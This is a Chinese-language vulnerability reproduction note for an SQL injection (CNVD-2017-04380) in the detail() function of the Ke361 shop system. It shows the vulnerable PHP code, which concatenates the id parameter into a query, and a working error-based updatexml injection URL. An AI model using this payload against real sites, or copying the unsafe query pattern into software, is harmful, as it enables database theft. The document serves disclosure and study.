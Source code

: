 # Ke361 TopicController.class.php SQL注入漏洞 CNVD-2017-04380

## 漏洞描述

Ke361 TopicController.class.php 文件中 detai() 函数中存在 SQL注入漏洞

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 Application/Home/Controller/TopicController.class.php, 漏洞函数详情

![image-20220518153711939](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181537005.png)

```
public function detail(){
         $id = I('id');
         $where['tid'] = $id;
         $TopicModel = new TopicModel();
         $topicInfo = $TopicModel->info($id);
        //  if(empty($topicInfo)){
        //      $this->error('您查看的专题不存在哦！');
        //  }
  			//  这里注释掉，默认不存在专题
         M('Topic')->where('id='.$id)->setInc('hits');
         $this->setSiteTitle($topicInfo['title']);
         $goods = $this->lists(D('Goods'),$where);
         foreach ($goods as $k=>$v){
             $goods[$k]['url'] = U('/goods/'.$v['id']);
         }
         $this->assign('goods',$goods);
         $this->assign('topic',$topicInfo);
         $this->display();
     }
```

这里接收参数 id，然后执行SQL语句, 通过报错注入可以获取数据库数据

```
/index.php?s=/Topic/detail/id/1)%20%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153727479](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181537557.png)

![image-20220518153736954](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181537004.png)